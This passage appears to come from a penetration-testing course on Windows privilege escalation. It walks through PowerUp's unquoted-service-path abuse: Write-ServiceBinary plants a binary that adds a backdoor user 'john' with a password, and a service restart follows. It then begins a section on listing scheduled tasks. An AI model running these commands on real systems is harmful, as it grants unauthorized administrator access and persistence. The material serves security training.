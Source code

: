 ```
PS C:\Users\dave> . .\PowerUp.ps1

PS C:\Users\dave> Get-UnquotedService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True

PS C:\Users\steve> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

ServiceName  Path                                         Command
-----------  ----                                         -------
GammaService C:\Program Files\Enterprise Apps\Current.exe net user john Password123! /add && timeout /t 5 && net loc...

PS C:\Users\steve> Restart-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
Restart-Service : Failed to start service 'GammaService (GammaService)'.
At line:1 char:1
+ Restart-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Restart-Service]
   , ServiceCommandException
    + FullyQualifiedErrorId : StartServiceFailed,Microsoft.PowerShell.Commands.RestartServiceCommand
```

#### Scheduled Tasks

We can view scheduled tasks on Windows with the _Get-ScheduledTask_[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/windows-privilege-escalation/abusing-other-windows-components/scheduled-tasks#fn1) Cmdlet or the command **schtasks /query**.[2](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/windows-privilege-escalation/abusing-other-windows-components/scheduled-tasks#fn2) We'll use the latter for this example to review all scheduled tasks on CLIENTWK220. We enter **/fo** with **LIST** as argument to specify the output format as list. Additionally, we add **/v** to display all properties of a task
